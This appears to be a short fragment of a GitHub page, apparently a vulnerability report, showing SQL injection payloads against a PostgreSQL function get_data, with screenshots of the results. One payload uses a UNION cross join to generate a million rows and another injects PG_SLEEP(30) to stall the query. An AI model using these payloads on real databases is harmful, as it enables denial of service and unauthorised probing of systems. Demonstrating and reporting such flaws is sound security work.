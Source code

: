 SELECT * FROM get_data('1'' UNION
(SELECT p1, CAST(p1 AS VARCHAR), CAST(p1 AS INTEGER)
FROM (SELECT generate_series p1 FROM generate_series (1,1000)) t1
CROSS JOIN (SELECT * FROM generate_series (1,1000) t2) t3) -- ');

<img width="565" alt="2-2-5-1" src="https://user-images.githubusercontent.com/55449630/206283862-6858632d-d0a3-438a-95ca-299f549c60ca.png">

SELECT * FROM get_data('1'' OR EXISTS (SELECT 1 FROM PG_SLEEP(30)) -- ');

<img width="570" alt="image" src="https://user-images.githubusercontent.com/27497026/210150314-a17cc3d5-95fa-4c84-8df6-3a70e30ce70b.png">

After 30 seconds:

<img width="566" alt="image" src="https://user-images.githubusercontent.com/27497026/210150344-c9bf3ead-514b-4d14-a622-eb0cad5304c3.png">
